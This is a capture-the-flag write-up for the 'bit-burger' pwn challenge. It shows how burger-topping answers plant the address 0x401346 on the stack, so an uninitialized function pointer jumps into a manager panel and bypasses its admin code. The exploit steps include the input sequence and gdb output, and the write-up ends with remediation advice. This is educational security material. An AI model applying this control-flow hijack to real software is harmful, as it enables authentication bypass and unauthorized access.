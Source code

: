 # bit-burger

## Summary

**Challenge description:**

🍔borger borger borger borg borg borger borger borger borg borg borg borg borg

**Artifacts:**

* bit-burger.bin: compiled binary provided by the challenge

## Context

The bit-burger challenge authors provide a domain and a port that connect to the challenge. They also provide a compiled source binary `bit-burger.bin` that is running on the remote server.

The program asks the user a choice of 24 burger toppings, and then asks if the burger should be grilled or fried.

```text
Welcome to BitBurger, home of the Bit Burger! May I take your order?

What would you like on your Bit Burger?
 - a bun (y/n)? y
 - a patty (y/n)? y
 - cheese (y/n)? y
 - lettuce (y/n)? y
 - tomato (y/n)? y
 - pickles (y/n)? y
 - ketchup packet (y/n)? y
 - mustard packet (y/n)? y
 - mayonnaise packet (y/n)? y
 - debug sauce (y/n)? y
 - pixelated pickles (y/n)? y
 - algorithmic aioli (y/n)? y
 - salted hashes (y/n)? y
 - cracked hashes (y/n)? y
 - array slices (y/n)? y
 - browser cookie crumble (y/n)? y
 - corn kernels (y/n)? y
 - java jam (y/n)? y
 - spam (y/n)? y
 - GNU/gravy (y/n)? y
 - Linux mint (y/n)? y
 - silicon wafers (y/n)? y
 - raspberry pie (y/n)? y
 - wifi pineapples (y/n)? y

Got it! One Bit Burger with a bun, a patty, cheese, lettuce, tomato, pickles, ketchup packet, mustard packet, mayonnaise packet, debug sauce, pixelated pickles, algorithmic aioli, salted hashes, cracked hashes, array slices, browser cookie crumble, corn kernels, java jam, spam, GNU/gravy, Linux mint, silicon wafers, raspberry pie, wifi pineapples, comin' right up!

Would you like that grilled or fried?: grilled

Grilling up your Bit Burger... *sizzle* *sizzle*

Order up!
Thank you, please come again!
```

The program also performs checks on the user input: for burger options, input must be `y`, `n`, or `$`, and for `grilled` or `fried`, any other input gives the following message:

```text
Would you like that grilled or fried?: baked
Sorry, we don't serve baked Bit Burgers here.
Segmentation fault (core dumped)
```

Some part of our memory is invalid when neither `grilled` or `fried` is selected by the user.

```text
$ checksec bit_burger.bin
[*] '/home/cricketwireless/CUCTF/carolinesomers/ctf-writeups/ritsecctf-2025/pwn/bit-burger/bit_burger.bin'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

We observe that this binary has no PIE, so there's a fixed base address (`0x400000`). Stack canaries are present, so we have to be careful. And NX is enabled, so we can't execute the stack directly.

The `main()` function at `0x401628` calls the function to take the order at `0x41069e`(`take_order()`) and the function to choose the style at `0x4016a8` (`choose_style()`)

Let's take a look at `take_order()`:

It runs through each of the ingredient options, with options `y` or `n`, but we can see that there is a secret third option, `$` which calls another function, `0x4` (`manager_control_panel()`).

Inside the `manager_control_panel()` function, it prompts the user for a code, which is obtained by calling srand on the pid bit ORed with the current time, and then taking the last 6 digits. If the correct admin code is entered, then the program executes a `/bin/bash` script which prints the flag.

So we have a function to open up an admin console and brute-forcing the admin code is infeasible.

Now we can check out the `choose_style()` function to figure out the memory errors.

There is a `code *` function pointer that is located at offset `-0x18` that is unintialized at the start of the function. When the user answers, `grilled` or `fried`, then the function pointer is set to `grilled` or `fried` functions. Then the function pointer is called at line `0x40160f`. If `grilled` or `fried` is not selected, then the function is still called, which creates our seg fault issue.

## Vulnerability

The vulnerability lies in the uninitialized function pointer that calls `grilled` or `fried`, creating a control flow issue when neither `grilled` or `fried` are chosen, but the function pointer is still called. This not only causes the program to seg fault, it also means that the data left at the same offset as the variable is what is called next in the program.

 Conveniently, there are a total of 24 burger "options" that are stored in a binary number. Intuitively, we can see that the 24-bit number can become our 6 digit hex address. In the exploitation section, we can see how this works.

## Exploitation

**Exploit overview:**

The exploitation involves choosing the burger options to represent the binary address in the admin function. This binary number is then called in our uninitialized function pointer, giving us the ability to jump wherever in the program we want.

**Exploit mitigation considerations:**

* Function pointers could be avoided all-together, since it is not necessary in this case [Are function pointers evil?](https://stackoverflow.com/questions/19260203/are-function-pointers-evil)
* The manager control panel shouldn't have such elevated privileges
* PIE isn't enables, so we know exactly where in memory everything is located

**Exploit description:**

This attack happens to work because the function pointer used to call `grilled` or `fried` gets set to whatever garbage was left on the stack at offset -018 before `choose_style()` is called.

Let's look back at our `take_order()` function since it is the caller of `choose_style()` to see what's happening on the stack.

The variable that is located at offset `-0x18` in `take_order()` is the binary int that is used to set bits based on the ingredients. So, if we choose the ingredients so that the binary number corresponds to the address `0x401346` in the manager control panel, we should be able to call this address in the `choose_style()` function.

Now, we can choose our ingredients corresponding to the number 010000000001001101000110, but backwords, since it is on the stack, so the responses to the burger options would be `n, y, y, n, n, n, y, n, y, y, n, n, y, n, n, n, n, n, n, n, n, n, y, n`. We can check out the stack in `gdb` right before we return from `take_order`:

```text
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc70 ◂— 0x6e00000000000000
01:0008│-018 0x7fffffffdc78 —▸ 0x401346 (manager_control_panel+176) ◂— lea rax, [rip + 0xe3b]
02:0010│-010 0x7fffffffdc80 ◂— 0x18
03:0018│-008 0x7fffffffdc88 ◂— 0xa0aea7ca787b0a00
04:0020│ rbp 0x7fffffffdc90 —▸ 0x7fffffffdca0 ◂— 1
05:0028│+008 0x7fffffffdc98 —▸ 0x4016a3 (main+123) ◂— mov eax, 0
06:0030│+010 0x7fffffffdca0 ◂— 1
07:0038│+018 0x7fffffffdca8 —▸ 0x7ffff7dafd90 (__libc_start_call_main+128) ◂— mov edi, eax
```

and we see that our address 0x401346 has successfully landed on the stack.
Now we want to check if it remains at this location when choose_style() is called.

```text
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc70 ◂— 0x6e00000000000000
01:0008│-018 0x7fffffffdc78 —▸ 0x401346 (manager_control_panel+176) ◂— lea rax, [rip + 0xe3b]
02:0010│-010 0x7fffffffdc80 ◂— 0x18
03:0018│-008 0x7fffffffdc88 ◂— 0xa0aea7ca787b0a00
04:0020│ rbp 0x7fffffffdc90 —▸ 0x7fffffffdca0 ◂— 1
05:0028│+008 0x7fffffffdc98 —▸ 0x4016ad (main+133) ◂— lea rax, [rip + 0xce3]
06:0030│+010 0x7fffffffdca0 ◂— 1
07:0038│+018 0x7fffffffdca8 —▸ 0x7ffff7dafd90 (__libc_start_call_main+128) ◂— mov edi, eax
```

boom. uve been pwned.

Now when we choose a style that is not `grilled` or `fried` (a secret third option), the function pointer calls inside the `admin` function and executes the script to print the flag.

Note that while the stack canaries are checked, they are only checked at the end of the function. When we jump to the instruction right before the `/bin/bash` script is run, the flag is printed before the canary is checked.

**Exploit primitives used:**

1. Uninitialized variable
2. Arbitrary Call
3. Authentication Bypass

## Remediation

Enabling position independent execution remediates the issue, but an attacker could still find their way around by guessing the address or leaking an address.

To successfully overcome the specific vulnerability of the uninitialized variable, the code could be rewritten to properly initialize the function pointer to `0`, as well as only calling the function when either `grilled` or `fried` is selected, in order to prevent the program from seg faulting.